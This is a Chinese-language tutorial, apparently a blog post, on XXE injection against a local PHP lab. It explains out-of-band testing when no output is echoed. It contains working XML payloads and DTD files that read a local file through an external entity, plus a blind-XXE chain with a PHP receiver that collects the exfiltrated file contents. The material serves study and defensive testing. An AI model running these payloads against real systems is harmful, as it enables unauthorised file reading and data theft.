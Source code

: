 ```plain
```

![1646634600084-e2a4c70a-43fe-49f4-859b-b3d4647b7810.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656475-836021061.png)

```plain
为什么来进行带外测试呢？为了解决无回显问题，类似于正向连接和反向连接问题。

如果再代码中没有输出，注释掉
```

![1646634843704-ca8b3ada-b4ef-4eac-97ba-c27507f79f09.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102655689-1081519013.png)

```plain
注释掉后，再一次利用上面的payload进行读取文件，发现已经读取不到文件内容了。
```

![1646635239124-9694a938-cb87-4578-8f88-dd31592584dd.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102657828-7797614.png)

```plain
读取不到文件，可能的方法有很多种：1.代码写错 2.文件不回显 3.路径写错
带外测试是判断这个漏洞有没有，判断能不能想外部发送数据。

测试能带外测试后，那么就引用外部实体

外部引用实体dtd：引用远程evil2.dtd文件，evil2.dtd文件是读取文件（核心代码） 解决拦截防护绕过问题 这个需要有回显。
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://127.0.0.1:8081/web/php_xxe/evil2.dtd">
    %file;
]>
<user><username>&send;</username><password>Mikasa</password></user>

evil2.dtd：读取d:www.txt内容
<!ENTITY send SYSTEM "file:///d:/www.txt">
```

![1646636610367-db75177a-cc91-43ea-9b56-71db7b2b9637.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913102656584-436873799.png)

```plain
那么解决不回显的引用外部实体，那应该怎么处理呢？

无回显读文件，解决数据不回显问题。把数据进行传参，然后在进行接受。
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///d:/www.txt">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8081/web/php_xxe/test.dtd">
%remote;
%all;
]>
<root>&send;</root>

test.dtd
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8081/web/get1.php?file=%file;'>">

get1.php
<?php
$data=$_GET['file'];
$myfile = fopen("file.txt", "w+");
fwrite($myfile, $data);
fclose($myfile);
?>

在http://127.0.0.1:8081/web/get1.php同级目录下查看file.txt文件就可以获取到www.txt内容。
```
